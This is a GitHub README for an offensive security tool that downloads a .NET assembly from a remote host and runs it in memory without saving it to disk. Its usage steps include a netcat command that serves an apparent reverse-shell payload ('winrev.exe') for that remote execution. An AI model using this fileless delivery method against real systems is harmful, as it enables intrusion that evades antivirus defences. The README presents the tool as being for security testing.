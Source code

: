 # DotnetFilelessExecution

## Overview

DotnetFilelessExecution (DFE) is the very basic demonstration of how to fetch a .NET assembly remotely and the execute it on the client side directly in memory, i.e., without having to save the assembly on the disk.

## Compilation

I have used cross compilation but of course, Visual Studio can be used.

```bash
mcs -out:DotnetFilelessExecution.exe DotnetFilelessExecution.cs
```

## Usage

- Start a simple Netcat file sharing server, serving the .NET compiled assembly which you want to execute.

```bash
nc -nvlp 80 < winrev.exe
```

- Use DotnetFilelessExecution to execute it remotely in memory

```bash
.\DotnetFilelessExecution.exe
```

## Note
For demonstration purposes, the connect back addresses is hardcoded in the source files. In order to make most of this program, please consider to change that according to your desired needs.

## Disclaimer
This project is intended for educational and security testing purposes only. The author is not responsible for any misuse of this tool.

## Author
Developed by **Sayan Ray** [@BareBones90](https://x.com/BareBones90)

## License
This project is licensed under the MIT License - see the LICENSE file for details.
